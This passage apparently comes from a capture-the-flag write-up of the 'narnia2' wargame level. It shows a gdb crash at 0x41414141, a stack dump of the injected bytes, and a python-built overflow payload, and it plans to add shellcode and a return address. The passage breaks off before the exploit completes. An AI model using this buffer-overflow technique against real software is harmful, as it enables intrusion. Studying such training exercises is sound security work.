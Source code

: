 >
>Program received signal SIGSEGV, Segmentation fault.
>0x41414141 in ?? ()
>(gdb) x/300x $esp
>0xffffd480:	0x00000000	0xffffd524	0xffffd530	0xf7fdb860
>0xffffd490:	0xf7ff4821	0xffffffff	0xf7ffcff4	0x08048249
>0xffffd4a0:	0x00000001	0xffffd4e0	0xf7fedc16	0xf7ffdac0
>0xffffd4b0:	0xf7fdbb58	0xf7fb6ff4	0x00000000	0x00000000
>0xffffd4c0:	0xffffd4f8	0x88a8c4b2	0xbabdd2a2	0x00000000
>0xffffd4d0:	0x00000000	0x00000000	0x00000002	0x08048360
>0xffffd4e0:	0x00000000	0xf7ff39c0	0xf7e6dd6b	0xf7ffcff4
>0xffffd4f0:	0x00000002	0x08048360	0x00000000	0x08048381
>0xffffd500:	0x0804845d	0x00000002	0xffffd524	0x080484d0
>0xffffd510:	0x08048540	0xf7fee590	0xffffd51c	0xf7ffd908
>0xffffd520:	0x00000002	0xffffd674	0xffffd682	0x00000000
>0xffffd530:	0xffffd713	0xffffd726	0xffffd759	0xffffd764
>0xffffd540:	0xffffd774	0xffffd7c5	0xffffd7d7	0xffffd809
>0xffffd550:	0xffffd813	0xffffdd34	0xffffdd62	0xffffddb0
>0xffffd560:	0xffffddbe	0xffffddc9	0xffffdde1	0xffffde23
>0xffffd570:	0xffffde32	0xffffde3c	0xffffde4d	0xffffde64
>0xffffd580:	0xffffde79	0xffffde82	0xffffde95	0xffffdea0
>0xffffd590:	0xffffdea8	0xffffded4	0xffffdee1	0xffffdf43
>0xffffd5a0:	0xffffdf80	0xffffdf8d	0xffffdf9a	0xffffdfb3
>0xffffd5b0:	0x00000000	0x00000020	0xf7fded00	0x00000021
>0xffffd5c0:	0xf7fde000	0x00000010	0x0fabfbff	0x00000006
>0xffffd5d0:	0x00001000	0x00000011	0x00000064	0x00000003
>0xffffd5e0:	0x08048034	0x00000004	0x00000020	0x00000005
>0xffffd5f0:	0x00000008	0x00000007	0xf7fe0000	0x00000008
>0xffffd600:	0x00000000	0x00000009	0x08048360	0x0000000b
>0xffffd610:	0x00000000	0x0000000c	0x00000000	0x0000000d
>0xffffd620:	0x00000000	0x0000000e	0x00000000	0x00000017
>0xffffd630:	0x00000000	0x00000019	0xffffd65b	0x0000001f
>0xffffd640:	0xffffdfea	0x0000000f	0xffffd66b	0x00000000
>0xffffd650:	0x00000000	0x00000000	0x2c000000	0xe21e02b3
>0xffffd660:	0x27a6bb80	0x7bd9c3b3	0x69d37a93	0x00363836
>0xffffd670:	0x00000000	0x6f6f722f	0x616e2f74	0x61696e72
>0xffffd680:	0x41410032	0x41414141	0x41414141	0x41414141
>0xffffd690:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd6a0:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd6b0:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd6c0:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd6d0:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd6e0:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd6f0:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd700:	0x41414141	0x41414141	0x41414141	0x41414141
>0xffffd710:	0x53004141	0x415f4853	0x544e4547	0x4449505f
>0xffffd720:	0x3439333d	0x50470030	0x47415f47	0x5f544e45
>0xffffd730:	0x4f464e49	0x6f722f3d	0x2e2f746f	0x68636163
>```
>
> We can see our ```A``` come in towards the bottom.  Let's try to go ahead and try to dump our shellcode in as part of our input and point the return back to the begining of it.  We'll reuse the shellcode from the last challenge, which was 28 bytes.  We also need 4 bytes for the return.  Let's see if we can get a good address to return to.
>
>```asm
>(gdb) run $(python -c 'print "A"*112+"R"*28+"AAAA"')
>The program being debugged has been started already.
>Start it from the beginning? (y or n) y
>
>Starting program: /root/narnia2 $(python -c 'print "A"*112+"R"*28+"AAAA"')
>warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
>Program received signal SIGSEGV, Segmentation fault.